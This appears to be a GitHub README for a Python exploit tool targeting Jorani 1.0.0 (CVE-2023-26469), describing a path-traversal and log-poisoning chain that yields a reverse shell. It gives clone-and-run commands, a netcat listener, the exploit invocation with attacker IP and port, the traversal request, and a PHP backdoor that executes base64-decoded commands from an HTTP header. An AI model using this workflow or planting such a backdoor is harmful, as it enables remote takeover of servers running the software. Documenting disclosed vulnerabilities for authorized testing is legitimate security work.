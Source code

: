 # Jorani 1.0.0 Exploit (CVE-2023-26469)

**Unrestricted File Upload → Remote Code Execution Exploit**

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
[![Python 3.8+](https://img.shields.io/badge/Python-3.8%2B-blue.svg)](https://www.python.org/downloads/)

**Disclaimer**: This tool is for educational and authorized testing purposes only. Misuse of this software is prohibited. The developers assume no liability for damage caused through improper use.

## Table of Contents
- [Description](#description)
- [Vulnerable Versions](#vulnerable-versions)
- [Installation](#installation)

## Description
This exploit targets a critical vulnerability chain in Jorani v1.0.0 that combines:
1. **Path Traversal** in language parameter
2. **Unrestricted File Upload** leading to Remote Code Execution

The exploit works by poisoning application logs with PHP code and triggering execution through manipulated HTTP headers.

**Credits**:
- Original vulnerability discovery: [@jrjgjk (Guilhem RIOUX)](https://github.com/jrjgjk)
- Exploit adaptation: Samip Mainali

## Vulnerable Versions
Confirmed vulnerable version:
- **Jorani 1.0.0**

Other potentially affected versions (untested):
- Tested on Version 1.0.0 (based on CVE-2023-26469 details)

## Installation
1. Clone repository:
bash
git clone https://github.com/samipmainali/Jorani-Reverse_shell-v1.0.0.git
cd Jorani-Reverse_shell-v1.0.0

Requirements:

Python 3.8+
Requests library
Usage

Start netcat listener:
bash
Copy
nc -lvnp 4444
Run exploit:
bash
Copy
python3 exploit.py -u http://target:port -i YOUR_IP -p LISTENER_PORT
Example:

bash
Copy
python3 exploit.py -u http://192.168.1.100:8080 -i 10.10.14.5 -p 4444
Features:

Automatic protocol detection (HTTP/HTTPS)
Randomized header injection
Connection stability checks
Detailed error diagnostics
Troubleshooting:

If connection fails, verify:
Target URL accessibility
Listener configuration
Firewall rules
Protocol compatibility (HTTP vs HTTPS)
Technical Details

Vulnerability Chain

Log Poisoning:
Path traversal in language parameter allows writing PHP files to log directory
http
Copy
POST /session/login HTTP/1.1
language=../../application/logs
Header-Based Code Execution:
php
Copy
```<?php 
if(isset($_SERVER["HTTP_X_CUSTOM_HEADER"])){
    system(base64_decode($_SERVER["HTTP_X_CUSTOM_HEADER"]));
}
```
Exploit Workflow

CSRF token extraction
Log file poisoning with PHP backdoor
Reverse shell triggering via custom header
Connection stability verification
Key Features

Randomized HTTP header names for each execution
Automatic protocol detection and validation
Connection timeout handling
Color-coded status output
References

CVE-2023-26469 Advisory
Original Research by Guilhem RIOUX

Legal Notice
This software is provided "as-is" without any warranty. Users are solely responsible for ensuring they have proper authorization to test systems using this tool. The developers disclaim all liability for unauthorized or malicious use.
